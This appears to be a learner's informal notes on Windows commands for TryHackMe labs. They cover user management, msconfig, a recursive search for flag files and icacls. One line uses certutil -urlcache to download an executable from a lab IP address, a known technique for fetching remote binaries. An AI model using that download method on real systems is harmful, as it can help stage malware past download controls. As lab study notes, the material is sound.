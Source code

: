 ## check user groups and names
win +r
type lusermgr.msc

## configure common issues
msconfig this utitlity has so many options

## site with all cmd commands

https://ss64.com/nt/

## THM intresting labs
https://tryhackme.com/room/windowseventlogs
https://tryhackme.com/room/btwindowsinternals

## get files 
dir *flag*.txt /s

## get files online 
certutil -urlcache -f http://10.8.249.117:8081/learn.exe learn.exe

## veiw permissions usinf 
A tool you can use to check the files or folder permissions is "icacls".

## Process hunter


